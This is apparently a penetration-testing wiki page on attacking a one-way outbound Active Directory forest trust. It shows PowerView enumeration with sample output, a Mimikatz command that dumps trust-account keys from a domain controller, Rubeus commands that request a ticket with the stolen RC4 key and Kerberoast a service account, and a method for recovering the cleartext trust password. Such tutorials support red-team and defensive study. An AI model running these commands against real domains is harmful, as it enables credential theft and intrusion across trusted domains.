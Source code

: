 # External Forest Domain - One-Way (Outbound)





In this scenario **your domain** is **trusting** some **privileges** to principal from a **different domains**.

## Enumeration

### Outbound Trust

```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```

## Trust Account Attack

A security vulnerability exists when a trust relationship is established between two domains, identified here as domain **A** and domain **B**, where domain **B** extends its trust to domain **A**. In this setup, a special account is created in domain **A** for domain **B**, which plays a crucial role in the authentication process between the two domains. This account, associated with domain **B**, is utilized for encrypting tickets for accessing services across the domains.

The critical aspect to understand here is that the password and hash of this special account can be extracted from a Domain Controller in domain **A** using a command line tool. The command to perform this action is:

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```

This extraction is possible because the account, identified with a **$** after its name, is active and belongs to the "Domain Users" group of domain **A**, thereby inheriting permissions associated with this group. This allows individuals to authenticate against domain **A** using the credentials of this account.

**Warning:** It is feasible to leverage this situation to gain a foothold in domain **A** as a user, albeit with limited permissions. However, this access is sufficient to perform enumeration on domain **A**.

In a scenario where `ext.local` is the trusting domain and `root.local` is the trusted domain, a user account named `EXT$` would be created within `root.local`. Through specific tools, it is possible to dump the Kerberos trust keys, revealing the credentials of `EXT$` in `root.local`. The command to achieve this is:

```bash
lsadump::trust /patch
```

Following this, one could use the extracted RC4 key to authenticate as `root.local\EXT$` within `root.local` using another tool command:

```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```

This authentication step opens up the possibility to enumerate and even exploit services within `root.local`, such as performing a Kerberoast attack to extract service account credentials using:

```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```

### Gathering cleartext trust password

In the previous flow it was used the trust hash instead of the **clear text password** (that was also **dumped by mimikatz**).

The cleartext password can be obtained by converting the \[ CLEAR ] output from mimikatz from hexadecimal and removing null bytes ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

Sometimes when creating a trust relationship, a password must be typed in by the user for the trust. In this demonstration, the key is the original trust password and therefore human readable. As the key cycles (30 days), the cleartext will not be human-readable but technically still usable.

The cleartext password can be used to perform regular authentication as the trust account, an alternative to requesting a TGT using the Kerberos secret key of the trust account. Here, querying root.local from ext.local for members of Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## References

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)




